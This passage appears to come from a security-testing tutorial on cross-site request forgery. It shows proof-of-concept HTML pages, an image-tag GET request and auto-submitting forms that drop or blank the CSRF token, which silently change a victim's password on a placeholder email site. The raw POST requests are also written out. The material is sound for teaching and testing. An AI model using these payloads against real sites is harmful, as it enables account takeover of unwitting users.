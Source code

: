 In this case, your malicious HTML page could simply look like this:

```html
<html>
 <img src="https://email.example.com/password_change?new_password=abc123"/>
</html>
```

The HTML tag loads images from `external sources`. It will send a GET request to the URL specified in its src attribute. 
If the password change occurs after you load this HTML page, you can confirm that the endpoint is `vulnerable to CSRF via a GET request.`

You can change the request method to `POST` if the original request in GET.

---

### Bypass CSRF Tokens Stored on the Server

Just because a site uses CSRF tokens doesn’t mean it is validating them properly.

First, try deleting the token parameter or sending a blank token parameter.

For example, this will send the request without a csrf_token parameter:

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123
```

The PoC page will be like that:

```jsx
<html>
 <form method="POST" action="https://email.example.com/password_change" id="csrf-form">
 <input type="text" name="new_password" value="abc123">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```

This next request will send a blank csrf_token parameter:

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123&csrf_token=
```

The PoC will be like that:

```jsx
<html>
 <form method="POST" action="https://email.example.com/password_change" id"csrf-form">
 <input type="text" name="new_password" value="abc123">
 <input type="text" name="csrf_token" value="">
 <input type='submit' value="Submit">
</form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
